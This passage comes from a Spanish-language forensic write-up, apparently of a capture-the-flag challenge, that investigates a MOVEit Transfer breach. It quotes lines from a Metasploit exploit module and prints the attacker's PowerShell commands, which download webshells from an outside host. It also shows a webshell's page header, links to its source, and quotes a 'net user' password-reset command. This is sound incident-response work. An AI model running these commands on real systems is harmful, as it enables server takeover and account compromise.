      fail_with(Msf::Exploit::Failure::Unknown, 'Could not find InstID from cookies!') unless cookies =~ /siLockLongTermInstID=([0-9]+);/
      vprint_status("Received siLockLongTermInstID cookie: #{@moveit_instid}")
      'MyPkgInstID' => '1234', # this can be any int value
    # Get the sessionID and siLockLongTermInstID
    print_status('[01/11] Get the sessionID and siLockLongTermInstID')
```

Lo interesante de este *output* es la cadena `'MyPkgInstID' => '1234'`.

Según esta cadena, el `InstID` del acatante es `1234`, pero teniendo en cuenta que el valor se puede cambiar, también se utilizó el *dump* `moveit.sql` que se encuentra entre los archivos Triage para confirmar este dato.

Para importar el *dump*, primero es necesario crear una base de datos vacía.

```
MySQL> create database moveit;
Query OK, 1 row affected (0.002 sec)
```

Teniendo la base de datos creada, se importo los datos con el siguiente comando:

```
ZSH> sudo mysql moveit < moveit.sql
```

El campo `InstID` se encuentra en varias tablas de la base de datos, pero la tabla relacionada con la pregunta es la tabla `log`.

```
MySQL> select LogTime,InstID,Username,IPAddress from log;
+---------------------+--------+-----------------------------+--------------+
| LogTime             | InstID | Username                    | IPAddress    |
+---------------------+--------+-----------------------------+--------------+
| 2023-06-14 02:21:48 |      0 | Automation                  | SCRIPT       |
| 2023-06-14 02:21:48 |      0 | Automation                  | NULL         |
| 2023-06-14 02:21:48 |      0 | Automation                  |              |
| 2023-06-14 02:21:48 |      0 | Automation                  | SCRIPT       |
| 2023-06-14 02:21:48 |      0 | Automation                  | NULL         |
| 2023-06-14 02:21:48 |      0 | Automation                  |              |
| 2023-06-14 02:21:48 |      0 | Automation                  | SCRIPT       |
| 2023-06-14 02:21:48 |      0 | Automation                  | SCRIPT       |
| 2023-06-14 02:27:18 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:35:11 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:35:11 |   3636 | Automation                  | NULL         |
| 2023-06-14 02:35:11 |   3636 | 1411u00clwv9ye3h            |              |
| 2023-06-14 02:35:11 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:39:49 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:39:49 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:40:13 |   3636 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:40:13 |   3636 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:40:24 |      0 | 1411u00clwv9ye3h            | 127.0.0.1    |
| 2023-06-14 02:40:32 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:01 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:01 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:12 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:17 |   3636 | vwj883m5p3944q9r            | 127.0.0.1    |
| 2023-06-14 02:41:22 |   3636 | vwj883m5p3944q9r            | 127.0.0.1    |
| 2023-06-15 01:01:11 |      0 | Automation                  |              |
| 2023-06-15 01:01:11 |   3636 | Automation                  | NULL         |
| 2023-06-15 01:01:11 |   3636 | Automation                  |              |
| 2023-06-15 01:01:11 |   3636 | Automation                  |              |
| 2023-06-15 01:01:15 |      0 | Automation                  | SCRIPT       |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:25:03 |   1234 | Guest:APCUVWMP@WCUURAXH.com | 10.255.254.3 |
| 2023-07-12 02:25:55 |   3636 | vcjoaquq                    | 10.255.254.3 |
| 2023-07-12 02:26:15 |   3636 | icfshlla                    | 10.255.254.3 |
| 2023-07-12 02:47:11 |   1234 | Guest:AQCSOIFB@YSNSKCUY.com | 10.255.254.3 |
| 2023-07-12 03:01:05 |   1234 | Guest:RWYBAGIC@HEXGVNAY.com | 10.255.254.3 |
| 2023-07-12 03:01:56 |   1234 | Guest:MHRFUQCI@LJJNDBUY.com | 10.255.254.3 |
| 2023-07-12 03:04:43 |   1234 | Guest:YRJXCORD@AQBURYAP.com | 10.255.254.3 |
| 2023-07-12 03:06:42 |   1234 | Guest:SJUHAYDO@KAAXLQSI.com | 10.255.254.3 |
| 2023-07-12 03:07:30 |   1234 | Guest:COKGEDGV@PKROFIQP.com | 10.255.254.3 |
| 2023-07-12 03:08:37 |   1234 | Guest:LKNLDAEV@XXGYUOKZ.com | 10.255.254.3 |
+---------------------+--------+-----------------------------+--------------+
45 rows in set (0.000 sec)
```

Teniendo en cuenta el valor por defecto en el módulo de Metasploit y los últimos eventos de la tabla `log`, el `InstID` del atacante fue `1234`.

---

## **12. *What command was run by the attacker to retrieve the webshell?***

Entre los archivos Triage, en la ruta `Triage/uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/` se encuentra el archivo `ConsoleHost_history.txt`.

Teniendo en cuenta parte de la ruta hacia el archivo (`moveitsvc.WIN-LR8T2EF8VHM.002`), el TXT guarda el historial de comandos realizados por `moveitsvc` en PowerShell.

```
ZSH> cat ConsoleHost_history.txt
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

El comando realizado por el atacante para descargar la *webshell* en el servidor fue `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`.

---

## **13. *What was the string within the title header of the webshell deployed by the TA?***

Para poder explorar de forma más rápida el archivo `I-like-to-27a787c5.vmem`, se utilizó el comando `strings` y se guardó su output en un archivo TXT.

```
ZSH> strings I-like-to-27a787c5.vmem > I-like-to-27a787c5.txt
```

Al buscar por el nombre de la *webshell* se encontró nuevamente con el comando ejecutado por el atacante.

```
ZSH> grep 'move.aspx' I-like-to-27a787c5.txt
...
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
<form name="cmd" method="post" action="./move.aspx" id="cmd">
...
```

Justo debajo del comando, se encuentra un formulario HTML.

Al filtrar utilizando esta cadena se obtuvieron cuatro coincidencias:

```
ZSH> grep '<form name="cmd" method="post" action="./move.aspx" id="cmd">' I-like-to-27a787c5.txt
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
```

Con `grep` se pueden mostrar las líneas que se encuentran antes y después de una cadena.

Luego de probar con varios valores, al mostrar las 5 líneas que se encuentran sobre el formulario se obtiene el contenido de las etiquetas `HEAD`.

```
ZSH> grep -B 5 '<form name="cmd" method="post" action="./move.aspx" id="cmd">' I-like-to-27a787c5.txt
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
```

Luego de una búsqueda por la *web*, se encontró con el siguiente [*script*](https://github.com/xl7dev/WebShell/blob/master/Aspx/awen%20asp.net%20webshell.aspx) que podría ser la *webshell* que utilizó el atacante.

El título que se encontró en las etiquetas `HEAD` de la *webshell* fue `awen asp.net webshell`.

---

## **14. *What did the TA change the our moveitsvc account password to?***

Para encontrar la nueva contraseña que estableció el atacante se filtró por la cadena `net user`.

```
ZSH> grep 'net user' I-like-to-27a787c5.txt
...
net user "moveitsvc" 5trongP4ssw0rd
```

La nueva contraseña asignada por el atacante para la cuenta se servicio fue `5trongP4ssw0rd`.
